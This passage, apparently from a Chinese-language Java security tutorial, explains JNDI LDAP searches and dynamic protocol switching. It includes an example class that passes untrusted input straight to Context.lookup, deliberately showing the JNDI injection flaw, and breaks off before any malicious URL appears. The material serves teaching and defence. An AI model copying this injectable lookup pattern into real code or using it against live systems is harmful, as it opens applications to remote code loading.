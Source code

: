 ```java
            String searchFilter = "(&(objectClass=inetOrgPerson)(cn=lulu)";

            // 执行搜索
            NamingEnumeration<SearchResult> results = ctx.search(searchBase, searchFilter, searchControls);

            // 遍历搜索结果
            while (results.hasMore()) {
                SearchResult searchResult = results.next();
                System.out.println("Name: " + searchResult.getName());
            }

            // 关闭连接
            ctx.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

编译输出示例：

```bash
{mail=mail: lulu@example.org, userpassword=Password: [p@ssw0rd, objectclass=objectClass: inetOrgPerson, person, top, gn=gn: lulu, sn=sn: Wang, cn=cn: lulu}
```



### 动态协议切换 [重点]

> 前面我们看到初始化 JNDI 上下文主要使用环境变量实现:
>
> - INITIAL_CONTEXT_FACTORY: 指定初始化协议的工厂类；
> - PROVIDER_URL: 指定对应名称服务的 URL 地址；

在JNDI中，动态协议切换指的是在程序运行时，根据需要自动改变使用的协议或服务类型的能力。`Context.lookup`方法用于根据名称查找对象，这个名称可以包含一个URL，该URL指定了要使用的服务和协议，例如`ldap://xxx`、`rmi://xxx`等。如果这个URL来自不可信的用户输入，攻击者可能会利用这一点来引发恶意行为。

**动态协议切换示例代码：**

> 当`ctx.lookup(name)`被执行时，它将尝试连接到用户指定的URL，可能触发恶意行为。

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Hashtable;

public class JndiInjectionExample {
		// lookup方法接收一个字符串参数name，这个参数用于JNDI查找的名称
    public static void lookup(String name) {
        try {
            Hashtable<String, String> env = new Hashtable<>();
            env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.ldap.LdapCtxFactory");

            Context ctx = new InitialContext(env);
            // 查找操作，其中name是外部输入
            Object obj = ctx.lookup(name);
            // 处理查找到的对象...
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        // 假设这是一个外部输入,指向恶意服务器的url
```